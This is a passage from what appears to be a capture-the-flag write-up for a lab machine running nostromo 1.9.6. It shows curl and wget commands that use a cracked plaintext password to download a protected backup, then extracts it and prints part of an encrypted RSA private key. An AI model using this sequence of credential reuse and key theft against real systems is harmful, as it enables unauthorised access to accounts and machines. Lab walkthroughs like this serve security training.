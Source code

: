 I could also grab the file over the webserver. If I `curl` the url, I get 401 unauthorized:

```

root@kali# curl 10.10.10.165/~david/protected-file-area/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>401 Unauthorized</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>401 Unauthorized</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>

```

I can add the username/password I cracked earlier, I can grab the file:

```

root@kali# wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
--2019-11-22 14:30:35--  http://david:*password*@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
Connecting to 10.10.10.165:80... connected.
HTTP request sent, awaiting response... 401 Unauthorized
Authentication selected: Basic realm="David's Protected File Area. Keep out!"
Reusing existing connection to 10.10.10.165:80.
HTTP request sent, awaiting response... 200 OK
Length: 1915 (1.9K) [application/x-tar]
Saving to: ‘backup-ssh-identity-files.tgz’

backup-ssh-identity-files.tgz         100%[======================================================================>]   1.87K  --.-KB/s    in 0s      

2019-11-22 14:30:35 (47.4 MB/s) - ‘backup-ssh-identity-files.tgz’ saved [1915/1915]

```

I can decompress that with `tar`, and I get a backup of the home directories with a private key:

```

root@kali# tar -zxvf backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
root@kali# head home/david/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec

```